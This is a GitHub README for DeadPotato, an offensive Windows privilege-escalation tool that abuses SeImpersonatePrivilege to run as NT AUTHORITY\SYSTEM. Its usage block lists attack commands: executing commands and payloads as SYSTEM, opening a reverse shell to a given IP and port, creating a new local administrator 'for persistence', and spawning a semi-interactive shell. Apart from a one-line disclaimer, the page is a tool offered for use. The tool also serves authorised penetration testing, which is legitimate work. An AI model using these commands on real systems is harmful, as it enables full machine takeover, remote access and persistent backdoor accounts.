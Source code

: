 ![image](https://github.com/user-attachments/assets/460525cb-1871-4608-a6e5-1c5da07f63aa)

<p align="center">
  <a href="#"><img alt="forksBDG" src="https://img.shields.io/github/forks/lypd0/DeadPotato?style=for-the-badge"></a>
  <a href="#"><img alt="starsBDG" src="https://img.shields.io/github/stars/lypd0/DeadPotato?style=for-the-badge"></a>
  <a href="#"><img alt="licenseBDG" src="https://img.shields.io/github/license/lypd0/DeadPotato?style=for-the-badge"></a>
  <a href="#"><img alt="languageBDG" src="https://img.shields.io/badge/LANGUAGE-CSHARP-green?style=for-the-badge"></a>

<h4 align="center"><i>❗Usage of this program under an unauthorized context is strictly forbidden. The author(s) of DeadPotato do not take any responsibility for any unintentional harm caused to systems. Use with caution. ❗</i></h3>

```
C:\Users\lypd0> GodPotato.exe
  
    ⠀⢀⣠⣤⣤⣄⡀⠀    _           _
    ⣴⣿⣿⣿⣿⣿⣿⣦   | \ _  _  _||_) _ _|_ _ _|_ _
    ⣿⣿⣿⣿⣿⣿⣿⣿   |_/(/_(_|(_||  (_) |_(_| |_(_)
    ⣇⠈⠉⡿⢿⠉⠁⢸   Open Source @ github.com/lypd0
    ⠙⠛⢻⣷⣾⡟⠛⠋         -= Version b1.0 =-
        ⠈⠁⠀⠀⠀

_,.-'~'-.,__,.-'~'-.,__,.-'~'-.,__,.-'~'-.,__,.-'~'-.,_

 (*) Example Usage(s):

   -={ deadpotato.exe -MODULE [ARGUMENTS] }=-

   -> deadpotato.exe -cmd "whoami"
   -> deadpotato.exe -rev 192.168.10.30:9001
   -> deadpotato.exe -exe paylod.exe
   -> deadpotato.exe -newadmin lypd0:DeadPotatoRocks1
   -> deadpotato.exe -shell

 (*) Available Modules:

   - cmd: Execute a command as NT AUTHORITY\SYSTEM.
   - rev: Attempts to establish a reverse shell connection to the provided host
   - exe: Execute a program with NT AUTHORITY\SYSTEM privileges (Does not support interactivity).
   - newadmin: Create a new administrator user on the local system.
   - shell: Manages to achieve a semi-interactive shell (NOTE: Very bad OpSec!)
```

## ❔Quick Start - How To Use
The `SeImpersonatePrivilege` right is enabled in your context? With **DeadPotato**, it is possible to achieve maximum privileges on the local system.<br><br>
The tool will attempt to start an elevated process running in the context of the `NT AUTHORITY\SYSTEM` user, allowing unrestricted access over the machine for critical operations to be freely performed.<br><br>
⚠️ In the following case, the `-cmd` module is used. Many modules are available for use, such as the `-rev IP:PORT` for spawning an elevated reverse shell, or `-newadmin usr:pass` for creating a new local Administrator user for persistence.

![cmd_GQJhLcT9IH](https://github.com/user-attachments/assets/b5f71f4a-f8bc-4099-81c5-54bcece7abb6)



